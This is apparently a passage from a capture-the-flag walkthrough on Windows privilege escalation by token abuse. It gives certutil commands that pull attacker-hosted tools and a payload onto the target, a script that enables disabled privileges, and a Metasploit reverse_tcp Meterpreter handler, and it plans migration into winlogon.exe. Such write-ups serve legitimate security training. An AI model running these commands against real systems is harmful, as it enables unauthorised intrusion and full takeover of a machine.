 

Download files to remote target System:

```
certutil -urlcache -f http://10.10.14.112:8989/RunasCs.exe RunasCs.exe
certutil -urlcache -f http://local_IP:8989/root.exe root.exe
certutil -urlcache -f http://local_IP:8989/psgetsys.ps1 psgetsys.ps1
```


The **tokens that appear as Disabled** can be enable, you  actually can abuse _Enabled_ and _Disabled_ tokens.


## Enable All the tokens

read more on Token abuse here: [[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens]]

If you have tokens disables, you can use the script [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) to enable all the tokens:

```
.\psgetsys.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

now lets open a new terminal and start msfconsole. we set up a multi/handler in Metasploit to receive a Meterpreter session, you would typically use the `exploit/multi/handler` module. Below is the Metasploit command to accomplish this:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 3939
set ExitOnSession false
exploit

```

After issuing the "run" command within the msfconsole, proceed to initiate the payload on alaading’s shell using the subsequent command.

```
.\root.exe
```

and BOOOM we get a shell!!!!!!!!!

![[privesc shell.png]]


now we would need to migrate our shell to **winlogon.exe** process. to do this we can make use of the ps command on our meterpreter shell to identify the PID of the **winlogon.exe** process.

![[winlogon.png]]
